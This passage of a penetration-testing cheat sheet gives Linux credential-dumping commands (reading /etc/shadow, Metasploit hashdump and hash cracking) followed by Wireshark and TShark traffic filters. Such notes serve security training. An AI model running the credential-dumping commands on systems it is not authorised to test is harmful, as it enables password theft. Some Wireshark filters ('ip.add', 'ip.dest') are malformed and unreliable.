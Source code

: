 ### Linux Credential Dumping

```bash
cat /etc/passwd
sudo cat /etc/shadow

# METASPLOIT (once exploited)
use post/linux/gather/hashdump
set SESSION <NUMBER>

use auxiliary/analyze/crack_linux
set SHA512 true
```

## Network Based Attacks

### Wireshark

```bash
wireshark -i eth1

# Filter by ip
ip.add == 10.10.10.9

# Filter by dest ip
ip.dest == 10.10.10.15

# Filter by source ip
ip.src == 10.10.16.33

# Filter by tcp port
tcp.port == 25

# Filter by ip addr and port
ip.addr == 10.10.14.22 and tcp.port == 8080

# Filter SYN flag
tcp.flags.syn == 1 and tcp.flags.ack ==0

# Broadcast filter
eth.dst == ff:ff:ff:ff:ff:ff
```

### TShark

```bash
tshark -D
tshark -i eth1
tshark -r <FILE>.pcap
tshark -r <FILE>.pcap | wc -l

# First 100 packets
tshark -r <FILE>.pcap -c 100

# Protocl hierarchy statistics
tshark -r <FILE>.pcap -z io,phs -q

# HTTP traffic
tshark -r <FILE>.pcap -Y 'http' | more
tshark -r <FILE>.pcap -Y "ip.src==<SOURCE_IP> && ip.dst==<DEST_IP>"

# Only GET requests
tshark -r <FILE>.pcap -Y "http.request.method==GET"

```